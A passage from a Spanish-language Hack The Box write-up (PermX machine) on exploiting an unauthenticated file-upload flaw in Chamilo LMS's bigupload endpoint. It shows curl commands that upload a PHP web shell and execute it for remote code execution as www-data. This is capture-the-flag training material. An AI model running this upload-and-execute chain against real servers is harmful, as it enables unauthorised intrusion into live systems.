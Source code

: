 La siguiente página web detalla muy bien la forma de explotar esta vulnerabilidad.

<https://starlabs.sg/advisories/23/23-4220/>

Como explica la página web, parece que es posible cargar archivos arbitrarios en el directorio `http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/` de forma no autenticada.

Al buscar en la dirección, el directorio está repleto de reverse shells de otros usuarios.

![](/assets/img/htb-writeup-permx/permx5.png)

El PoC es muy sencillo, simplemente hay que crear un archivo PHP que ejecute un comando en el sistema y, con curl, subirlo a la página.

```terminal
/home/kali/Documents/htb/machines/permx:-$ echo '<?php system("id"); ?>' > rce1.php
/home/kali/Documents/htb/machines/permx:-$ curl -F 'bigUploadFile=@rce1.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
The file has successfully been uploaded.
```

Si actualizo `http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/`, se puede apreciar que el archivo `rce1.php` está subido.

![](/assets/img/htb-writeup-permx/permx6.png)

Ahora se puede ejecutar el archivo PHP para que proporcione el `id` del usuario.

```terminal
/home/kali/Documents/htb/machines/permx:-$ curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rce1.php'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
